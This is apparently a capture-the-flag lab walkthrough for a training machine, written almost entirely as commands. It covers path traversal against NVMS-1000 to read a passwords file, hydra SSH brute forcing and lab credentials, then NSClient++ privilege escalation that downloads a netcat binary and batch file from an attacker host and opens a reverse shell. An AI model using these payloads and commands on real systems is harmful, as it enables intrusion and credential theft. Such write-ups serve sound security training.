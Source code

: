 ```
nmap -sS -sC -sV -T5 -Pn 10.10.10.184
```
![image](https://github.com/user-attachments/assets/a313103a-0e86-4faa-8270-9879e148cc2e)

```
ftp 10.10.10.184
anonymous:anonymous
```
![image](https://github.com/user-attachments/assets/0ff21dc1-81f9-4f12-bee4-635f1a249ade)

![image](https://github.com/user-attachments/assets/f43fd30d-1e25-4c7b-86e7-464d674ea2ed)

```
nvms 1000 exploit
https://www.exploit-db.com/exploits/48311
```
![image](https://github.com/user-attachments/assets/f1710fe7-fdf5-40db-912f-6a911580e317)

![image](https://github.com/user-attachments/assets/c04dfb6a-a1bb-4a8c-964b-5cc4b7e7fee5)

```
http://10.10.10.184/Pages/login.htm
/../../../../../../../../../../../../windows/win.ini
```
![image](https://github.com/user-attachments/assets/0d9f6310-4342-4b69-a5a1-8f1eec0b20de)

![image](https://github.com/user-attachments/assets/b489f478-226d-4977-a643-207796c8fa52)

```
/../../../../../../../../../../../../Users/Nathan/Desktop/Passwords.txt
```
![image](https://github.com/user-attachments/assets/f9cf7130-e0dc-4694-9997-a0d9b03b350f)

```
hydra -v -V -u -L users.txt -P passwords.txt -t 10 -u 10.10.10.184 ssh
```
![image](https://github.com/user-attachments/assets/f17637bf-6d86-4854-a606-d7df15feae19)

![image](https://github.com/user-attachments/assets/3e6601e3-5717-42c0-808b-d9bb2fb60085)

```
ssh Nadine@10.10.10.184
L1k3B1gBut7s@W0rk
```
![image](https://github.com/user-attachments/assets/99007e34-13e4-454b-9abc-137e67d22991)

```
Powershell
whoami /priv
```
![image](https://github.com/user-attachments/assets/4cba395f-a2f2-4bbb-b358-2504e7170d29)

```
searchsploit 'NSClient++'
```
![image](https://github.com/user-attachments/assets/62cd7886-2c6b-4f61-a0bf-2416204811e0)

```
cd "C:\Program Files\NSClient++\“
ew2x6SsGTxjRwXOT
```
![image](https://github.com/user-attachments/assets/017d2e31-134e-4d0f-94f8-d0406f14dd40)

```
https://www.exploit-db.com/exploits/46802
```
![image](https://github.com/user-attachments/assets/d97fcdb8-7f80-4c7d-9679-ad5618af7495)


```
cmd /c "C:\Program Files\NSClient++\nscp.exe" --version
```
![image](https://github.com/user-attachments/assets/6f0008e4-794f-4bb3-a9f0-c23c5364cee0)

```
sshpass -p 'L1k3B1gBut7s@W0rk' ssh nadine@10.10.10.184 -L 8443:127.0.0.1:8443
https://127.0.0.1:8443
```
![image](https://github.com/user-attachments/assets/41f170fd-d6b7-42bf-b5e7-dd5388417da5)

![image](https://github.com/user-attachments/assets/f6f02615-74d2-43c6-b446-07f2cd00f4d2)

```
\programdata\nc.exe 10.10.14.7 443 -e cmd
cd C:\programdata\
powershell wget http://10.10.14.7/nc64.exe -outfile nc.exe
powershell wget http://10.10.14.7/shell.bat -outfile shell.bat
```
![image](https://github.com/user-attachments/assets/5e3f3c3e-471a-4802-a430-15906f904a7b)

![image](https://github.com/user-attachments/assets/d7796056-a14b-478e-b774-62dcbd600a69)

```
/settings/external scripts/scripts/df
Command
C:\programdata\shell.bat
```
![image](https://github.com/user-attachments/assets/11e195a2-8a1a-4ee5-a50c-0344f3a8b726)


```
/settings/scheduler/schedules/df_run
Interval
10s
Command
df
```
![image](https://github.com/user-attachments/assets/ea4e2b44-7b07-4168-a276-a2415e865b7f)

![image](https://github.com/user-attachments/assets/135208e6-7467-40bd-b1ec-0325e52e077d)

![image](https://github.com/user-attachments/assets/f0b058aa-a573-44bd-9426-3ae7c18ae066)

```
rlwrap nc -lnvp 443
Trigger with Module - CheckExternalScripts
```
![image](https://github.com/user-attachments/assets/781c07d4-dde6-46e9-8f0d-cddb88a83974)
